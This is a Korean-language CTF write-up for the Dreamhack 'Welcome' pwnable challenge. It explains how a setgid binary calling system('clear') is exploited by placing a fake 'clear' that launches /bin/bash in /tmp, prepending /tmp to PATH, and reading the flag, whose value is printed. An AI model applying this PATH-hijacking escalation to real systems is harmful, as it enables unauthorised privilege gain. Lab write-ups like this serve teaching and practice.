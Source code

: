```yaml
---
title: "[Dreamhack CTF Season 2 #11] Welcome writeup"
date: 2023-01-29 21:56:00 +0900
categories: [CTF, PWNABLE]
tags: [ctf]
description: exploit setuid binary
---
```


## source code
chal 바이너리의 내용은 아래와 같다

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __asm { endbr64 }
  sub_1080(1001LL, 1001LL, 1001LL);
  sub_1090("clear");
  sub_1070("Tada~!");
  return 0;
}
```

바이너리를 실행하면 clear를 실행하고 Tada~ 문자열을 출력한 뒤 종료한다. 이제 remote에 접속해보자

```plaintext
pwn@localhost:~$ id
uid=1000(pwn) gid=1000(pwn) groups=1000(pwn)
pwn@localhost:~$ ls -al
total 48
drwxr-x--- 1 pwn  pwn    4096 Dec  7 09:06 .
drwxr-xr-x 1 root root   4096 Dec  5 04:32 ..
-rw-r--r-- 1 pwn  pwn     220 Dec  5 04:32 .bash_logout
-rw-r--r-- 1 pwn  pwn    3771 Dec  5 04:32 .bashrc
drwx------ 2 pwn  pwn    4096 Dec  7 09:06 .cache
-rw-r--r-- 1 pwn  pwn     807 Dec  5 04:32 .profile
-rwxr-sr-x 1 root pwned 16048 Dec  5 04:32 chal
-rw-r-S--- 1 root pwned    69 Dec  5 04:32 flag
pwn@localhost:~$
```

flag에 read가 막혀있으나, `chal` 에 setuid가 걸려있다. 이를 통해 chal이 하는 행위를 조작해야 하는 것을 알 수 있다.

앞서 바이너리를 본대로 chal은 `system("clear")` 와 같이 실행하므로 bash의 환경변수($PATH)의 영향을 받는다.

그러므로 임의 경로에 bash를 실행해주는 명령을 clear라는 이름으로 저장하고, 해당 경로를 환경변수에 추가해주면 플래그를 읽을 수 있다.

## vulnerability

```plaintext
pwn@localhost:~$ ./flag
-bash: ./flag: Permission denied
pwn@localhost:~$
```

```plaintext
pwn@localhost:~$ cd /tmp/
pwn@localhost:/tmp$ echo "/bin/bash" > clear
pwn@localhost:/tmp$ chmod 777 clear
pwn@localhost:/tmp$ cat clear
/bin/bash
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$ export PATH=/tmp:$PATH
pwn@localhost:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
pwn@localhost:/tmp$
```

```plaintext
pwn@localhost:/tmp$ cd ~
pwn@localhost:~$ ./chal
pwn@localhost:~$ id
uid=1000(pwn) gid=1001(pwned) groups=1001(pwned),1000(pwn)
pwn@localhost:~$ cat flag
DH{e47d874ddc629f916d3d5ef6f0d0de90c7b151f9d7010325d051c811382b489f}
pwn@localhost:~$
```
